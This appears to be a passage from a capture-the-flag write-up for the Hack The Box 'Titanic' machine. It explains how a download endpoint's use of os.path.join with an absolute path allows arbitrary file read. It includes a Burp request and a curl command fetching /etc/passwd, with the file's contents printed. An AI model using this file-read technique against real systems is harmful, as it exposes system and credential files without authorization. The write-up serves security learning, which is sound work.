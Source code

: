 The book and download pages. My suspicion was correct, the book only creates a json with all the variables (with the name as uuid4), and the most important thing, is that after generating it, it redirect to the download_ticket function with the name of the ticket created.
Then, the function download_ticket gets the ticket name from the arguments, and (if imputed) does a **os.path.join** with the ticket dir (which is tickets) and the ticket name.
It then returns as a download the ticket.

If we could possibly change the ticket name, to for example /etc/passwd we could download that file. The route should we starting from the tickets folder, so whe should add some ../.. to first go to the root of the server **normally**. But reading the os.path.join documentation I encounter this:

- ****Absolute Paths****: If an absolute path is provided at any level, it resets the previous components to that absolute path.

From https://www.geeksforgeeks.org/python-os-path-join-method/
As the ticket variable is the last parameter, we can input absolute paths and it will work!

So let's capture a packet with burpsuite and edit the **?ticket** variable
I send to repeater, and modifly the ticket variable.
```
GET /download?ticket=/etc/passwd HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

And we have it:
![[titanic07.png]]

This can also be done modifying the variable from the url directly, like this:
```
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ curl "http://titanic.htb/download?ticket=/etc/passwd" 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
```